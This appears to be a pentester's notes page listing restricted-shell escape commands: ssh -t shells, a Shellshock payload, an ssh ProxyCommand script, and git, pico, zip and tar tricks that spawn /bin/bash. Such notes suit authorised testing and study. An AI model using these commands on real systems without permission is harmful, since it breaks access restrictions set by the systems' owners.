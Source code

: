[[Index.canvas|Index]]

## Authentication

## Dangerous Settings


## Restricted Shell Outbreak
1)From ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
2)From ssh2 > ssh username@IP -t "bash --noprofile"
3)From ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
4)From ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh"
127.0.0.1 (SUID)
5)From git > git help status > you can run it then !/bin/bash
6)From pico > pico -s "/bin/bash" then you can write /bin/bash and
then CTRL + T
7)From zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c
/bin/bash"
8)From tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-
action=exec=/bin/bash